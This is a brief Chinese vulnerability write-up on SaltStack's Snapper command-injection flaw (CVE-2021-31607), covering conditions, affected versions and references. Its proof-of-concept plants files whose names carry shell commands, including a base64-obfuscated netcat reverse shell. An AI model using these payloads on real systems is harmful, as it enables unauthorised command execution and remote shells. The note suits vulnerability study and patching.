 # SaltStack命令注入漏洞（CVE-2021-31607）

在SaltStack的Snapper模块中存在命令注入漏洞，当master请求minion的diff时，minion会使用popen执行file命令判断目录下文件是否为文本文件，将文件名作为参数传递给file，当文件名包含恶意命令时可能导致命令注入漏洞，导致系统执行恶意命令。

利用条件：

1. master开启Snapper.diff模块
2. minion内存在有恶意文件名的文件

影响版本：

saltstack 2016.9 到3002.6

PoC：


```
echo hi > '$(touch HACKED).txt'
反弹shell：
echo hi > '$(echo bmMgLWUgL2Jpbi9iYXNoIDEyNy4wLjAuMSA0NDQ0|base64 -d|sh -i).txt'
```

ref：

* https://sec.stealthcopter.com/saltstack-snapper-minion-privledge-escaltion/
* https://nvd.nist.gov/vuln/detail/CVE-2021-31607
* https://nox.qianxin.com/vulnerability/detail/97347